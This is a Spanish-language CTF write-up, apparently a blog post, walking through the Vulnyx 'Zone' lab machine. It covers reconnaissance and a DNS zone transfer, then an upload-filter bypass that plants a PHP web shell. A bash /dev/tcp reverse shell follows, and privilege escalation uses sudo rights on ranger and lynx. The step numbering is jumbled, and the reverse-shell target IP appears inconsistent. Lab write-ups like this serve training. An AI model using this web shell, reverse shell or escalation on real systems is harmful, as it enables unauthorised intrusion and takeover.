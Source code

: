 ```yaml
---
layout: post
title: "Zone"
date: 2024-05-10 17:10:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zone </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#zone"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/zone/host.png){:.margin}

**1\.** Vemos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/zone/arp.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- --open -T5 -sS -sCV --min-rate=5000 -n -Pn 192.168.1.14 -oN report`

![img](/notas/public/img/vulnyx/zone/nmap.png){:.margin}

**3\.** En la web Apache no se encuentra nada interesante.

`http://192.168.1.14/`

![img](/notas/public/img/vulnyx/zone/80.png){:.margin}

**4\.** Descubrimos directorios y archivos.

`gobuster dir -u http://192.168.1.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t50 -x php,html,txt`

![img](/notas/public/img/vulnyx/zone/gobuster.png){:.margin}

**5\.** Revisamos el fichero robots. (tenemos un dominio)

`http://192.168.1.14/robots.txt`

![img](/notas/public/img/vulnyx/zone/robots.png){:.margin}

**6\.** Lo añadimos en nuestra configuracion de hosts.

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx`
![img](/notas/public/img/vulnyx/zone/etc.png){:.margin}

**7\.** Vamos al nuevo dominio, vemos la pagina Apache por defecto.

`http://securezone.nyx`

![img](/notas/public/img/vulnyx/zone/securezone.png){:.margin}

**8\.** Hacemos una transferencia de zona, ya que tenemos un servicio dns.

`dig axfr @192.168.1.14 securezone.nyx`

![img](/notas/public/img/vulnyx/zone/dig.png){:.margin}

**9\.** Agregamos los subdominios al hosts. 

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx admin.securezone.nyx ns1.securezone.nyx upl0ads.securezone.nyx www.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/etc2.png){:.margin}

**10\.** Vamos revisando cada subdominio, en uploads tenemos subida de archivos.

`http://upl0ads.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/upload.png){:.margin}

**11\.** Abrimos burpsuite y su navegador para ir a upl0ads e interceptar el tramite.

![img](/notas/public/img/vulnyx/zone/browser.png){:.margin}

**12\.** Probamos subir un archivo.

`echo "hola" > file.txt`

![img](/notas/public/img/vulnyx/zone/probefile.png){:.margin}

**13\.** En burpsuite tenemos la peticion interceptada. Presionamos ctrl +r para enviar al Repeater.

![img](/notas/public/img/vulnyx/zone/intercep.png){:.margin}

**14\.** Enviamos la solicitud para ver la respuesta. ctrl + i para enviar al Intruder.

![img](/notas/public/img/vulnyx/zone/response.png){:.margin}

**15\.** Identificamos las extensiones permitidos.

_\- Seleccionamos la extension y presionamos en Add$_

![img](/notas/public/img/vulnyx/zone/step1.png){:.margin}

_\- Agregamos extensiones, luego iniciamos el ataque_

![img](/notas/public/img/vulnyx/zone/step2.png){:.margin}

_\- Se abre otra ventana, Tenemos una extension permitida_

![img](/notas/public/img/vulnyx/zone/step3.png){:.margin}

_\- Le metemos codigo php 'malicioso'  y lo enviamos_

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/zone/sendfile.png){:.margin}

_\- Fuzzeamos para ver donde se subio nuestro archivo_

`gobuster dir -u http://upl0ads.securezone.nyx/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnyx/zone/gobuster2.png){:.margin}

**16\.** Vamos a la web a la nueva ruta, probamos el funcionamiento ejecutando un comando.

![img](/notas/public/img/vulnyx/zone/id.png){:.margin}

**17\.** Ganando acceso al sistema.

_\- Nos ponemos en esucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/zone/nc.png){:.margin}

_\- Nos enviamos una shell_

`http://upl0ads.securezone.nyx/uploads/file.phar?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.14/443 0>%261`

![img](/notas/public/img/vulnyx/zone/reverse.png){:.margin}

_\- Tenemos la conexion a la maquina_

![img](/notas/public/img/vulnyx/zone/connected.png){:.margin}

**19\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo;fg`

`reset xterm`

`export TERM=xterm-256color`

![img](/notas/public/img/vulnyx/zone/tty.png){:.margin}

**18\.** Vemos permisos sudo, podemos ejecutar ranger como usuario hans.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol.png){:.margin}

**17\.** Escalamos como usuario hans

_\- Ejecutamos el binario_

`sudo -u hans /usr/bin/ranger`

_\- Presionamos ! y enter_

![img](/notas/public/img/vulnyx/zone/ranger.png){:.margin}

_\- Nos lanzamos una bash como usuario hans_

`/bin/bash`

![img](/notas/public/img/vulnyx/zone/ranger2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar lynx como root.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol2.png){:.margin}

**19\.** Escalamos privilegios a root

_\- Ejecutamos el binario_

`sudo usr/bin/lynx`

_\- Tipeamos ! y presionamos enter para obtener una bash_

`!`

![img](/notas/public/img/vulnyx/zone/lynx.png){:.margin}

_\- Ya somos root_

![img](/notas/public/img/vulnyx/zone/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>